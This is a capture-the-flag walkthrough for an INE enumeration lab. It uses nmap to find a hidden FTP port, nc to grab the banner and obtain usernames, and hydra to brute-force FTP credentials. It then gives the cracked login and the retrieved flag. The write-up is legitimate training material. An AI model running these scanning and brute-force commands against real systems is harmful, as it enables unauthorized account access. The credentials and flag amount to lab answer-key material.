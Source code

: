 # FTP Login Brute Force & Banner Grabbing

## Challenge Title
Discover Hidden FTP Service, Extract Users from Banner, Brute Force Credentials, and Retrieve the Flag.

## Category
Assessment Methodologies – Enumeration

## Lab Link
[INE Lab](https://my.ine.com/CyberSecurity/courses/d707f31c-913d-477e-951e-74503392e9ae/assessment-methodologies-enumeration/lab/24c50c27-185b-4541-a88f-e2a12811053e)

---

## Objective

Identify hidden services using Nmap, enumerate users from FTP banner, brute force FTP credentials, and extract flag3 from the user directory.

---

## Tools Used

- `nmap` – for service enumeration
- `nc` – for FTP banner grabbing
- `hydra` – for brute-force attacks
- `ftp` – to retrieve flag manually

---

## Step-by-Step Walkthrough

### 🔹 Step 1: Nmap Scan

Initial scan shows SMB and SSH.

```bash
nmap -sV target.ine.local
```
![Step 1](./1.png)

To discover all services, use full port scan:

```bash
nmap -p- -sV target.ine.local
```
We find an FTP service on port `5554`.

![Step 2](./2.png)

### 🔹 Step 2: Grab FTP Banner

```bash
nc target.ine.local 5554
```
The banner reveals three potential usernames: ashley, alice, amanda.

![Step 3](./3.png)

### 🔹 Step 3: Create User Wordlist

```bash
nano users.txt
```
```text
alice
ashley
amanda
```
![Step 4](./4.png)
![Step 5](./5.png)

### 🔹 Step 4: Brute Force FTP Credentials
Using Hydra:
```bash
hydra -L users.txt -P /root/Desktop/wordlists/unix_passwords.txt ftp://target.ine.local:5554
```
Success! Found valid credentials:
- Username: alice
- Password: pretty

![Step 6](./6.png)

### 🔹 Step 5: Access FTP and Download Flag
```bash
ftp target.ine.local 5554
```
Login with `alice:pretty`
Use `ls` to list and `get flag3.txt` to download.

![Step 7](./7.png)

### 🔹 Step 6: View Retrieved Flag
```bash
cat flag3.txt
```
Output:
```bash
FLAG3{232c4bdafc8844129123cfaeaa5c4e68}
```
![Step 8](./8.png)

## Conclusion
Through enumeration, service discovery, and brute-forcing techniques, we were able to extract sensitive credentials and retrieve the flag from a hidden FTP service.

## Files Included
- `users.txt` – Created for brute-forcing
- `1.png` → `8.png` – Screenshots documenting each step
